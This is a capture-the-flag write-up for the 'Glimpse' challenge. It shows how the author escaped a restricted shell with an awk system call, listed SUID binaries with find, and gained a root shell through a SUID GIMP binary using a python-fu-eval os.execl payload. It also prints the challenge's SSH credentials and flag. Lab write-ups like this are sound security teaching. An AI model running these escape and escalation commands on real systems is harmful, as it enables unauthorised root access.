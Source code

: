 # Glimpse

### 125 Points

### Problem

There's not a lot to work with on this server. But there is something...

Connect here:
`ssh -p 50027 user@jh2i.com # password is 'userpass'`

### Solution

Upon connecting we notice that we are in some kind of restricted shell that will not allows us to run cd commands or run commands that have `/` in them. The first thing I did was try and get a regular Bash shell using awk with `awk 'BEGIN {system("/bin/bash")}`. With that I ran a find command that looked for all the processes that had SUID set for the Root users that might allows us to get a root shell. The command was ` find / -perm /4000 2>&1| grep -v Permission`. Output is below:

```/bin/mount
/bin/umount
/bin/su
/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gimp-2.8
/usr/bin/pkexe
```

There are a few processes there, but the one that most looks like it is our target based on it's name is gimp. I look that up on [GTFOBins](https://gtfobins.github.io/) and we find that it does indeed have a [SUID vulnerability](https://gtfobins.github.io/gtfobins/gimp/#suid)  We run that command and see the following:

```
user@ca0f301e59f8:/$ /usr/bin/gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'

(gimp:51): Gtk-WARNING **: 02:44:25.810: Locale not supported by C library.
        Using the fallback 'C' locale.

(gimp:51): GLib-GObject-WARNING **: 02:44:26.412: g_object_set_is_valid_property: object class 'GeglConfig' has no property named 'cache-size'
Failed to parse tag cache: No such file or directory
GIMP-Error: Could not open '/home/user/.gimp-2.8/pluginrc' for writing: Read-only file system

GIMP-Warning: Unable to open a test swap file.

To avoid data loss, please check the location and permissions of the swap directory defined in your Preferences (currently "/home/user/.gimp-2.8").

#
```

There we have a root prompt. At this point we just cat /root/flag.txt and we get the flag: **flag{just_need_a_glimpse_of_the_flag_please}**